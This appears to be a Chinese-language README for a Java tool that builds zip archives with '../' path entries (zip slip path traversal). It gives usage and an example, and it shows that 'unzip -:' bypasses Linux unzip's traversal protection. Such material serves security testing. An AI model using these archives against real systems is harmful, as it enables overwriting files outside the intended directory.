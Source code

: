 # zip_path_traversal
java生成包含../目录的压缩包

## 使用
`java -jar generateZip.jar parm1 parm2 parm3`

第一个参数是需要压缩的源路径；第二个参数是压缩文件的目的路径，这边需要将压缩的文件名字加上去;第三个参数为zip压缩包中的目录命名

## Example
`java -jar generateZip.jar "D:\\dir1\\dir2\\dir3\\test.txt"  "D:\\dir1\\dir2\\dir3\\test.zip" "../../"`

在D:\\dir1\\dir2\\dir3\\生成目录结构为../../test.txt的test.zip压缩包，该压缩包解压会跳到D:\\dir1\\test.txt

## 注
linux下使用unzip解压该zip包路径会被限制：

(```) 

root@6d943786cd4c:~# unzip 11.zip 

Archive:  11.zip

warning:  skipped "../" path component(s) in ../../../tmp/1.txt

  inflating: tmp/1.txt 
  
(```)

使用`unzip -: 11.zip`解压被不会被限制

(```)

root@6d943786cd4c:~# unzip -: 11.zip 

Archive:  11.zip

  inflating: ../../../tmp/1.txt
  
(```)
